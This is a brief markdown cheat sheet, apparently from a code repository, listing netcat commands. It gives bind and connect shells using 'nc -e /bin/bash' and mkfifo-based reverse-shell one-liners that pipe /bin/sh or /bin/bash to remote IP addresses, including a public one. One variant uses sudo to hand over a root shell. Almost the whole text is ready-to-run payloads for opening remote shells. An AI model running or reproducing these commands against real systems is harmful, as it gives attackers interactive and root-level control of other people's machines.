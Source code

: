 # Netcat

Kali:

	nc MACOS/Windows-IP 8888  -e /bin/bash (connect)
	nc  -lvvp 8888 -e /bin/bash (listen)
	
MacOS:

	nc KALI-IP 8888 (connect - cannot execute -e directly)
    nc -l 8888 (listen - cannot execute -e directly)

## Reverse Shell

Shell:

	mkfifo /tmp/f; nc 192.168.0.110 2222 0</tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

Bash:

	mkfifo /tmp/f; nc 51.210.47.127 1234 0</tmp/f | /bin/bash -i >/tmp/f 2>&1; rm /tmp/f

Bash: (root)

	mkfifo /tmp/f; nc 51.210.47.127 1234 0</tmp/f | sudo /bin/bash -i >/tmp/f 2>&1; rm /tmp/f
